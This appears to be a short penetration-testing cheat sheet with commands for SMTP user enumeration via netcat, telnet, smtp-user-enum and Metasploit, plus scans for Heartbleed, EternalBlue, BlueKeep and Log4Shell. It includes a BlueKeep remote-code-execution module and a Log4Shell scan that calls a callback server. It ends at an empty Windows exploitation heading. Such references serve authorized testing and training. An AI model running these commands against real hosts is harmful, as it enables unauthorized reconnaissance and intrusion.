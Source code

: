 ```
nc <TARGET_IP> 25
telnet <TARGET_IP> 25

# TELNET client - check supported capabilities
HELO attacker.xyz
EHLO attacker.xyz
```

```
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t <TARGET_IP>
```

**Metasploit**

```
# METASPLOIT
service postgresql start && msfconsole -q

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/smtp/smtp_enum
```

#### Vulnerability Assessment



```
# HEARTBLEED
nmap -sV --script ssl-enum-ciphers -p <SECURED_PORT> <TARGET>
nmap -sV --script ssl-heartbleed -p 443 <TARGET_IP>

# ETERNALBLUE
nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>

# BLUEKEEP
msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

# LOG4J
nmap --script log4shell.nse --script-args log4shell.callback-server=<CALLBACK_SERVER_IP>:1389 -p 8080 <TARGET_IP>
```

```
searchsploit badblue 2.7
```

#### Host Based Attacks



**Windows Exploitation**


